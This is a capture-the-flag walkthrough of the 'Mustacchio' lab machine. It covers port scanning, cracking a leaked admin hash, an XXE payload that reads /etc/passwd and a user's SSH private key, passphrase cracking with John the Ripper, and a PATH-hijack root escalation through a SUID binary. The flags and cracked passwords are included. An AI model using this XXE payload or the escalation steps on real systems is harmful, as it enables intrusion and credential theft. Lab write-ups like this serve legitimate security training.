

# Mustacchio

* IP = 10.10.108.42

## Questions/Tasks:

* Starting with basic nmap scan to discover open ports in the server:
`nmap -sC -sV -v $IP`
### Nmap Scan Results:
```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2WTNk2XxeSH8TaknfbKriHmaAOjRnNrbq1/zkFU46DlQRZmmrUP0uXzX6o6mfrAoB5BgoFmQQMackU8IWRHxF9YABxn0vKGhCkTLquVvGtRNJjR8u3BUdJ/wW/HFBIQKfYcM+9agllshikS1j2wn28SeovZJ807kc49MVmCx3m1OyL3sJhouWCy8IKYL38LzOyRd8GEEuj6QiC+y3WCX2Zu7lKxC2AQ7lgHPBtxpAgKY+txdCCEN1bfemgZqQvWBhAQ1qRyZ1H+jr0bs3eCjTuybZTsa8aAJHV9JAWWEYFegsdFPL7n4FRMNz5Qg0BVK2HGIDre343MutQXalAx5P
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCEPDv6sOBVGEIgy/qtZRm+nk+qjGEiWPaK/TF3QBS4iLniYOJpvIGWagvcnvUvODJ0ToNWNb+rfx6FnpNPyOA0=
|   256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGldKE9PtIBaggRavyOW10GTbDFCLUZrB14DN4/2VgyL
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Mustacchio | Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

* Since there is a website running on port 80, we enumerate hidden directories/files with **gobuster**:
`gobuster -u "http://IP/" -w common.txt`
### GoBuster Scan Results:
```
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/custom (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)

```
* In the mean time we went to the webpage and we are brought here:<br>

* The About page:<br>

* Nothing was interesting as such, the `robots.txt` page showed `Disallow: /` which was also not useful as well.
* The `/custom` directory looked strange, so I visited there; under that directory there were 2 directories:`css` and `js`.
* The `js` directory had these files:<br>

* The `users.bak` file looked strange, it turned out to be a sqlite database file, so looking into its contents, we found:<br>

* This `admin:1868e36a6d2b17d4c2745f1659433a54d4bc5f4b` looked like some login credentials!!
* The hash was successfully cracked from <a href="https://crackstation.net/">crackstation</a>, and the password was found to be: `bulldog19`.
* Since gobuster also couldn't find any other directories, we initiated another nmap scan over all ports with `-p-`.
### Second scan Results:
```
8765/tcp open  http    syn-ack nginx 1.10.3 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
* And just like that we found another http port open:`8765`.
* The webpage on that port looks like this:<br>

* Now login with the above credentials: `admin` and `bulldog19`.
* We're brought here:<br>

* As the hint says, look at the source code:<br>

* Now we download the file `/auth/dontforget.bak`, which is actually a XML file:<br>

* As the source code says, we need to inject xml code into the text area, so we tried out with the above xml code, and got the following Results:<br>

* We can pretty much guess at this moment that we need to do an XXE injection, we tried some payloads from <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection">Payloads All the things</a>, and after some tweaking, this seemed to work:<br>
```XML
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE updateProfile [
<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<comment>
  <name>Heisenberg</name>
  <author>Walt</author>
  <com>&file;</com>
</comment>
```

* Next we tried to change the `file:///etc/passwd` with `file:///home/barry/.ssh/id_rsa`, since the source gave us hints about *SSH* and the user `Barry`; now we get this:<br>

* Copy the RSA private key, and save in a file `id_rsa`, change the permissions with `chmod 600 id_rsa`; and to break the private key encryption passphrase extract the hash first:`python ssh2john.py id_rsa > hash.txt`, then crack with *John the ripper*:`john hash.txt --wordlist=rockyou.txt`
* The passphrase is successfully cracked as:`urieljames`
* Now ssh into the server with:`ssh -i id_rsa barry@IP`<br>

* And just like that we get the user flag.


1. What is the user flag?

**Ans-62d77a4d5f97d47c5aa38b3b2651b831**

* Firstly we tried `sudo -l` which didn't work as the user barry can't run sudo commands!
* Next we checked the another user's( i.e Joe's) home folder and found this:<br>

* Carefully notice the permissions, it has execution permissions for all users and also a SUID binary i.e even if we run it as a low privileged user, our `euid` or `effective user ID` will become root.
* Now, how to know initially what does the binary do?
* Try running `strings` command on it,( the strings command extracts all printable strings from any binary/ascii file ):<br>

* So, probably from the output we can guess that the binary runs the C function `system()` and executes the command:`tail -f /var/log/nginx/access.log`
* Notice that the tail command has no absolute path, hence we can make an executable with same name (tail) and add it to path:<br>
* Create your own script to elevate privileges, name it as `tail`, mark it executable with:`chmod +x tail` and finally add to path with:
```bash
export PATH=$PWD:$PATH
```
* And just like that we get a root privileged shell:<br>


2. What is the root flag?

**Ans-3223581420d906c4dd1a5f9b530393a5**
